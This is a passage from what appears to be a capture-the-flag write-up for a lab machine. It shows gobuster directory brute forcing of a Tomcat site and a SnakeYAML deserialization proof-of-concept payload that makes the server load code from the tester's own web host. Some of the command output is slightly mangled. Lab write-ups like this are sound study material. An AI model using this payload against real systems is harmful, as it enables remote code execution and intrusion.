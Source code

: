 #### Directory Brute Force

I’ll run against the site, and include since I know the site is PHP:`gobuster``-x php`

    oxdf@parrot$ gobuster dir -u http://10.10.10[9/9$
    8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o scans/gobuster
    -root-small -t 40                         
    ===============================================================
    Gobuster v3.0.1                                                                      
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.227:8080
    [+] Threads:        40
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1                                                   
    [+] Timeout:        10s                                                              ===============================================================                      2021/02/14 13:54:52 Starting gobuster                                                
    ===============================================================
    /test (Status: 302)
    /manager (Status: 302)                                                               
    ===============================================================
    2021/02/14 13:57:58 Finished                                                         
    ===============================================================
    

`/manager` is the Tomcat manager page, which needs creds, and the defaults don’t work.

`/test` redirects to which is 404.`/test/`

## Shell as tomcat

### Deserialization POC

YAML parsers are notoriously bad with safely handling data serialized data. Thinking about what the site is (or will be?) doing with input, it will try to parse the YAML into objects, which is deserialization.

Despite the site saying it’s down, it’s not clear if that is displayed before or after trying to deserialize the user input. I’ll try a YAML derserialization payload just to check. Since the server is Tomcat, I’ll look for Java-based payloads. In Googling “Java YAML deserialization”, there are a handful of blog posts about the topic. [This post](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858) has a nice test to see if Java Yaml deserialization would work, which when adapted for Ophiuchi becomes:

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/"]
      ]]
    ]
    

I’ll start a Python webserver and put that into the form. On submitting, there’s a request:
